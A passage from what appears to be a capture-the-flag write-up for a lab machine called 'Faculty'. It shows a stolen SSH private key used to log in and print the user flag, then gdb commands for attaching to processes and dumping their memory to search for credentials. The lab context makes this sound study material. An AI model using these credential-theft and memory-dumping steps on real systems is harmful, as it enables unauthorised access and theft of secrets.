 ```bash
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:8146) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 2)
(node:8146) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.

gbyolo@faculty:/dev/shm$ ls -al
total 4
drwxrwxrwt  3 root      root       120 Aug 26 11:03 .
drwxr-xr-x 18 root      root      3940 Aug 26 08:00 ..
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 exploit.se
-rwxrwxrwx  1 developer developer 2602 Aug 26 11:03 id_rsa
drwx------  4 root      root        80 Aug 26 08:00 multipath
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 test
```

Login and grab `user.txt`:
```
➜  faculty vim developer-id_rsa          
➜  faculty chmod 400 developer-id_rsa 
➜  faculty ssh developer@faculty.htb -i developer-id_rsa
developer@faculty:~$ id && cat user.txt
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
904b8c9a6982c444e519674b88a31b25
```


# ROOT
### Step 1
As seen from `id` user `developer` is part of group `debug`, this is interesting. 
See if there are any files owned by group `debug`:
```bash
developer@faculty:/$ find / -group debug 2> /dev/null
/usr/bin/gdb
```

With [GDB](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#gdb) we can attach different processes and dump their memory, in hope of finding credentials. 
```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/<name>.mem <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/<name>.mem
```

Trying to dump a lot of processes I find nothing and decide to continue looking for other ways to use gdb. 
